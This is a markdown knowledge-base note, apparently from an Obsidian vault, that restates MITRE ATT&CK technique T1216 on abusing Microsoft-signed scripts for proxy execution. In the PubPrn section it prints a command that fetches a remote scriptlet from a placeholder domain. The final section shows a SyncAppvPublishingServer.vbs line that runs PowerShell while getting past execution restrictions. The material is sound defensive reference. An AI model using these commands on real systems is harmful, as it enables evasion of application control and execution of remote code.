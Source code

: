 Tactics: [[DEFENSE_EVASION]]
Tags: #mitre/attack/techniques/T1216  

# Signed Script Proxy Execution - T1216
---
## Description
[more on T1216](https://attack.mitre.org/techniques/T1216)

Adversaries may use scripts signed with trusted certificates to proxy execution of malicious files. Several Microsoft signed scripts that are default on Windows installations can be used to proxy execution of other files. This behavior may be abused by adversaries to execute malicious files that could bypass application control and signature validation on systems.[1](https://github.com/api0cradle/UltimateAppLockerByPassList)

---
## Sub-Techniques

#### PubPrn - T1216.001
[more on T1216.001](https://attack.mitre.org/techniques/T1216/001)

Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [[T1059_Command and Scripting Interpreter#Visual Basic - T1059 005|Visual Basic (T1059.005)]] script that publishes a printer to Active Directory Domain Services. The script is signed by Microsoft and is commonly executed through the [[T1059_Command and Scripting Interpreter#Windows Command Shell - T1059 003|Windows Command Shell (T1059.003)]] via `Cscript.exe`. For example, the following code publishes a printer within the specified domain: `cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com` .[1](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.[2](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/) To do so, adversaries may set the second `script:` parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is `pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct`. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), `PubPrn.vbs` has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to `LDAP://`, vice the `script:` moniker which could be used to reference remote code via HTTP(S).

#### SyncAppvPublishingServer - T1216.002
[more on T1216.002](https://attack.mitre.org/techniques/T1216/002)

Adversaries may abuse SyncAppvPublishingServer.vbs to proxy execution of malicious [[T1059_Command and Scripting Interpreter#Powershell - T1059.001|PowerShell]] commands. SyncAppvPublishingServer.vbs is a Visual Basic script associated with how Windows virtualizes applications (Microsoft Application Virtualization, or App-V). [1](https://securelist.com/bluenoroff-methods-bypass-motw/108383/) For example, Windows may render Win32 applications to users as virtual applications, allowing users to launch and interact with them as if they were installed locally. [2](https://learn.microsoft.com/en-us/windows/application-management/app-v/appv-getting-started) [3](https://www.hackingarticles.in/indirect-command-execution-defense-evasion-t1202/)

The SyncAppvPublishingServer.vbs script is legitimate, may be signed by Microsoft, and is commonly executed from `\System32` through the command line via `wscript.exe`. [4](https://www.trellix.com/en-ca/about/newsroom/stories/research/suspected-darkhotel-apt-activity-update/) [5](https://lolbas-project.github.io/lolbas/Scripts/Syncappvpublishingserver/)

Adversaries may abuse SyncAppvPublishingServer.vbs to bypass  [[T1059_Command and Scripting Interpreter#Powershell - T1059.001|PowerShell]] execution restrictions and evade defensive counter measures by "living off the land." [6](https://strontic.github.io/xcyclopedia/library/SyncAppvPublishingServer.exe-3C291419F60CDF9C2E4E19AD89944FA3.html) [4](https://www.trellix.com/en-ca/about/newsroom/stories/research/suspected-darkhotel-apt-activity-update/) Proxying execution may function as a trusted/signed alternative to directly invoking `powershell.exe`. [7](https://twitter.com/monoxgas/status/895045566090010624)

For example,  [[T1059_Command and Scripting Interpreter#Powershell - T1059.001|PowerShell]]  commands may be invoked using: [5](https://lolbas-project.github.io/lolbas/Scripts/Syncappvpublishingserver/)

`SyncAppvPublishingServer.vbs "n; {PowerShell}"`
